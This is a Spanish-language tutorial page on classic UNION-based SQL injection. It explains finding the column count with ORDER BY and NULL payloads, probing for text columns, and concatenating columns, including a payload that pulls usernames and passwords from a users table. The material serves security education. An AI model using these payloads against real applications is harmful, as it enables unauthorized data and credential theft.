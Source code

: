 ```yaml
---
layout: default
title: 3. Inyecciones clásicas con datos visibles
permalink: /injection_types/classic
nav_order: 5
has_children: true
---
```


# Inyecciones clásicas con datos visibles

Existen muchas variantes donde afectar en un punto de inyección cambia los resultados, por ejemplo en un **nombre de columna o las condiciones** de la cláusula `WHERE`. Esto extrae datos no previstos por la aplicación dentro de la tabla de la consulta original.

Sin embargo, cuando se quiere obtener información en masa y de otras partes de la base de datos, hay técnicas efectivas que se adaptan. La predominante se da con ataques que utilizan el operador `UNION`.

## Introducción a ataques UNION

La palabra `UNION` permite ejecutar más de una consulta `SELECT` y ubicar el resultado de una después de la otra, en el orden que se hayan escrito. En el siguiente ejemplo genérico:

```sql
SELECT a, b FROM tabla1 UNION SELECT c, d FROM tabla2
```

Si `tabla1` es:

| a | b |
| :-: | :-: |
| 111 | aaa |
| 222 | bbb |

Y `tabla2` es:

| c | d |
| :-: | :-: |
| 333 | yyy |

La consulta retorna el conjunto:

| col1 | col2 |
| :-: | :-: |
| 111 | aaa |
| 222 | bbb |
| 333 | yyy |

Para que una consulta `UNION` funcione, las **dos condiciones que tienen que cumplirse son**:
1. El **número de columnas** de todas las uniones coincide.
2. Los **tipos de datos** de cada columna deben ser compatibles en la misma posición resultante.

Determinar el número de columnas y tipos de datos de cada una en la consulta SQL original es vital.

## Determinar número de columnas

### ORDER BY

Hay dos formas básicas de determinar el número de columnas de la consulta original. La primera es abusar de la cláusula `ORDER BY`. Si bien lo común es escribir el nombre de la columna por la cual ordenar, también se permite elegir un número de posición o índice. Por ejemplo, asumiendo la siguiente consulta vulnerable:

```sql
SELECT a, b FROM tabla1 WHERE b = 'INYECTABLE AQUÍ'
```

El *payload* `' ORDER BY 1--` se reflejaría así:

```sql
SELECT a, b FROM tabla1 WHERE b = 'XYZ' ORDER BY 1--'
```

La consulta no tiene errores de sintaxis. Así se puede continuar con el número 2, 3, etc. hasta que eventualmente surja un error por pasarse del índice máximo, como:

```
The ORDER BY position number 3 is out of range of the number of items in the select list.
```

Las reacciones de la aplicación pueden ser varias, pero deben indicar un cambio de comportamiento debido a un error. Luego de esto se puede escribir el `UNION` con la cantidad de columnas exactas.

### Valores NULL

La segunda forma es inyectar el `UNION` comenzando por una sola columna, con el valor `NULL`, e incrementar las columnas nulas hasta que ya no se detecten errores:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

Un ejemplo de error podría ser:

```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

Esto funciona porque `NULL` es convertible a cualquier tipo de dato común. A tener en cuenta: en los DBMS populares esa sintaxis es viable, pero en el caso de Oracle se necesita referir a una tabla que viene con ese DBMS llamada `DUAL`:

```
' UNION SELECT NULL FROM DUAL--
```

## Determinar columnas con tipo de dato útil

El objetivo de SQLi con `UNION` es obtener datos, por lo general va a interesar que sean de tipo texto o *string*. Identificar la mayor cantidad de columnas de texto da flexibilidad para extraer y procesar los resultados. Sabiendo ya el número de columnas exactas, solo es necesario **probar con cualquier texto literal fijo** en cada columna y ver cuáles combinaciones arrojan error, por ejemplo:

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

Si el tipo de dato no es compatible hay chances de que se genere un error como:

```
Conversion failed when converting the varchar value 'a' to data type int.
```

Esto es análogo para otros tipos de dato si fuera necesario aplicarlo.

## Acumular en una columna

¿Qué sucede si se necesita más de una columna para los datos que se intentan extraer pero la consulta no tiene suficientes columnas de ese tipo?

Suponiendo un escenario donde el `UNION` admite **una sola columna** de tipo texto, pero como atacante se quieren obtener al menos dos columnas, se pueden aplicar operaciones de concatenación (u otras transformaciones) **sobre una única columna**. El siguiente es un ejemplo en Oracle para concatenar las credenciales de un usuario:

```
' UNION SELECT username || '~' || password FROM users--
```

Esto devuelve **una columna** con el contenido de dos, separando con el caracter `~` para distinguir comienzo y fin de cada una. El operador `||` es la concatenación. Como referencia de operadores válidos (puede diferir en versiones):

| Oracle, PostgreSQL | `'foo'||'bar'` |
| SQL Server | `'foo'+'bar'` |
| MySQL | `'foo' 'bar'` [Con espacio] <br> `CONCAT('foo','bar')` |
